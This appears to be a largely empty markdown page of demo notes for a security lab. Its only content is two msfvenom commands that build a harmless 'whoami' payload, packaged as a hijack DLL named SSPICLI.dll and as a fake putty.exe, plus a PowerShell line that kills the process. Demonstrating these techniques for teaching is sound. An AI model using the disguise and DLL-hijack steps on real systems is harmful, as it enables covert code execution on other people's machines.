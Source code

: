 ## Showcase
### Fake Payload
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f dll > SSPICLI.dll
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f exe > putty.exe
____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## For the DEMO!!!
### To kill the putty.exe we downloaded and launched.
    (get-process | ?{$_.name -like "putty"}).kill()
____________________________________________________________________________________________________________________
